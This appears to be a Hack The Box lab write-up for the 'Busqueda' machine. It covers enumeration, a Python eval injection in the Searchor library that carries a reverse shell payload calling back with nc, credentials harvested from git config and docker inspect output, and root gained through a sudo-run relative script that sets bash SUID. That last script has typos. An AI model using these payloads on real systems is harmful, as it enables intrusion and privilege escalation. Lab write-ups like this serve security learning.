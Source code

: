 ```yaml
---
layout: post
title: "HTB: Busqueda"
author: Andrew Cherney
date: 2023-08-12 16:14:08
tags: htb easy-box linux webapp python git
icon: "assets/icons/busqueda.png"
post_description: "Much like RedPanda this box starts with exploiting a search engine. I hope your python is up to the test. Next we look for an exploit using docker inspect to get into a git repo and gain access to private scripts running on the machine, which are then exploited for root."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h2>Enumeration</h2>

<h3>nmap</h3>

```
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Busqueda]
└──╼ $nmap -sC 10.10.11.208
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-14 16:34 CDT
Nmap scan report for 10.10.11.208
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://searcher.htb/
```

```bash
echo '10.10.11.208 searcher.htb' >> /etc/hosts
```

<h3>Port 80 - http</h3>

![front page](/img/busqueda/front_page.png)

![/search](/img/busqueda/search.png)

This page appears to be a universal searcher where you specify a platform and it returns a web address which you can enter as an address to perform your search. The endpoint that you are redirected to is **/search**. Now I've already got a small lead from the footer of the front page. This is run in Flask and using the [Searchor github repo](https://github.com/ArjunSharda/Searchor).

<h2>User as svc</h2>

<h3>Python Code Escape</h3>

If I skim that repo I can find that the basic functionality of this site is to use that repo to search various sites and return the url for that search. The cursory search of vulnerabilities for this repo turn up [this arbitrary code execution on version 2.4.2](https://security.snyk.io/package/pip/searchor/2.4.0). The crux is our old friend improper eval usage as seen below:

```python
url = eval(
    f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)
```

Commonly a way to escape python code through the eval function is to import os and use popen to run commands. Let's see what comes from that.

```
'+__import__("os").popen("id").read()+'
https://www.google.com/maps/search/uid%3D1000%28svc%29%20gid%3D1000%28svc%29%20groups%3D1000%28svc%29%0A
```

It works! Now I replace id with a reverse shell and gain my foothold.

```
'+__import__("os").popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.9 7777 >/tmp/f").read()+'
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Busqueda]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.208] 50910
bash: cannot set terminal process group (1641): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ whoami
whoami
svc
svc@busqueda:~$ cat user.txt
cat user.txt
113ea983d7b15-------------------
```

<h2>Root</h2>

<h3>Git Config</h3>

I run a linpeas and it throws off some interesting information. Firstly the **/home/svc/.local/bin** directory is in the path environment variable. If there is a script or command that runs another command or script from one of the path directories I can intercept that request and run my code as whatever user runs the script/command calling it (ideally root). Other basic things include DirtyPipe, Pwnkit, sudo Baron Samedit 1 and 2, and Netfilter heap out-of-bounds write. 

Before looking into any of those there are two .git directories:

```
drwxr-x--- 8 root root 4096 Apr  3 15:04 /opt/scripts/.git
drwxr-xr-x 8 www-data www-data 4096 May 14 18:08 /var/www/app/.git
```

I have access to the one inside of /var/www/app, so I'll crack open that juicy config file and see what we have. 

```
svc@busqueda:/var/www/app/.git$ cat config 
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

Oh sweet wompums look at that password **jh1usoih2bkjaspwe92**. Now I can toss out a **sudo -l** to see what our user "cody" can do as root. 

```bash
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

<h3>Gitea</h3>

```bash
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   4 months ago   Up 8 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   4 months ago   Up 8 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Two things pop out here, one is that here is a mysql database for a locally running webpage, and the other is that there is some other hosted site that we might be able to enumerate. Luckily inside of /etc/hosts on this machine I found **gitea.searcher.htb**. In retrospect the credentials for cody also mentioned this subdomain. 

![gitea page](/img/busqueda/gitea.png)

![gitea login](/img/busqueda/gitea_login.png)

![cody gitea](/img/busqueda/cody_gitea.png)

It seems we have another user for this specific service named administrator. Those credentials are certainly inside of the mysql database listed with our sudo access. Now all we need to do is figure out how to interact with that database. 

{% raw %}

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect gitea
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --'{{.Config.Image}}' gitea
--gitea/gitea:latest
```

I found a basic use case [for the command here](https://docs.docker.com/engine/reference/commandline/inspect/), it pretty closely follows the regular docker inspect command. At the bottom of that page is the payload <code>docker inspect --format='{{json .Config}}' $INSTANCE_ID</code> and I intend to see if that works.

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --'{{json .Config}}' gitea
--{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

{% endraw %}

Oh hey it did work. And if you squint hard enough you can make out the administrator password is **yuiu1hoiu4i5ho1uh**. 

![admin gitea](/img/busqueda/admin_gitea.png)

![scripts repo](/img/busqueda/scripts_repo.png)

And would you look at that cool scripts directory with identical scripts to the /opt/scripts directory on the machine. Taking a small peek at one of the scripts that didn't work when I tried is I find my ticket to root. 

<h3>Code Exploitation</h3>

```python
elif action == 'full-checkup':
    try:
        arg_list = ['./full-checkup.sh']
        print(run_command(arg_list))
        print('[+] Done!')
    except:
        print('Something went wrong')
        exit(1)
```

Checking the full-checkup option of the code I can run as sudo I see that the option only checks for a local file then runs it as root. I can make the file modify /bin/bash to be an suid and then I will obtain root. 

```bash
!#/bin/bash
chmod +s /bin.bash
```

```bash
svc@busqueda:~$ nano full-checkup.sh 
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
c0c2d4933301--------------------
```
